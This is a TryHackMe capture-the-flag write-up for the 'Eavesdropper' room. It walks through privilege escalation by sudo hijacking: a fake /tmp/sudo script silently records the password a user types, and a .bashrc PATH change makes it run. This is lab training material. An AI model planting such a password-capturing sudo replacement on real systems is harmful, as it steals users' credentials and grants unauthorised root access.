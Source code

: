 # TryHackMe - Eavesdropper
![Room Logo](./img/logo.png)  
Room Link => [Eavesdropper](https://tryhackme.com/room/eavesdropper)  
#### There are two ways to solve this machine.
- Intended Way  
- Unintended Way  

#### You can follow the steps below to solve it using the intended way or you can check out another writeup by `xyro` who found an unintended way to solve this machine which is something very few people would have found and his approach to solve this machine is also unique. Link to his write is here => [Xyro's Writeup](http://xyro.codes/THM/eavesdropper/writeup.html)

## Intended way :

<p>
    <strong>Intended way :</strong>
    <ul>
        <li>
            <strong>Step 1 :</strong><br>
            LogIn to the machine using <code>idrsa.id-rsa</code> provided in task 1 with username <code>frank</code>.
        </li>
        <li>
            <strong>Step 2 :</strong><br>
            Transfer <code>pspy</code> onto the target machine and run it for a while.<br>
            There are a few things we notice.<br>
            User frank is logging in via ssh and then running the command <code>sudo cat /etc/shadow</code><br>
            We can perform <code>sudo hijacking</code> on this.
        </li>
        <li>
            <strong>Step 3 :</strong><br>
            Time for <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking">sudo
                hijacking</a>.
            While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't
            be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of
            the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by
            frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).<br>
            Follow these steps to capture the password using our sudo executable.
            <ol>
                <li>
                    <code>touch /tmp/sudo</code> creating our own sudo executable.
                </li>
                <li>content of sudo file <br>  
```   
        #!/bin/bash  
        read -s pass # after executes the command, this will read the password entered by frank and store it in the pass variable  
        echo $pass > /home/frank/pass.txt # echoing the password from pass variable to pass.txt so that we can read it once catured.    
```
                </li>
                <li>
                    <code>chmod +x /tmp/sudo</code>
                </li>
                <li>
                    Modify you <code>$PATH</code> variable using <code>.bashrc</code> <br>
                    <img src="./img/bashrc.png" alt="bashrc"> <br>
                    Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
                    that can be used to switch to root.
                </li>
            </ol>
        </li>
        <li>
            <strong>Step 4 :</strong><br>
            Copy the password from pass.txt and do <code>/usr/bin/sudo su</code> and get the root flag.
        </li>
    </ul>
    <h1>
        Solved 😁
    </h1>
    <p>
        Once you are done with this. <br> Make sure to ckeck out <a href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a><br>
        His method is super awesome 👍🏻
    </p>

</p>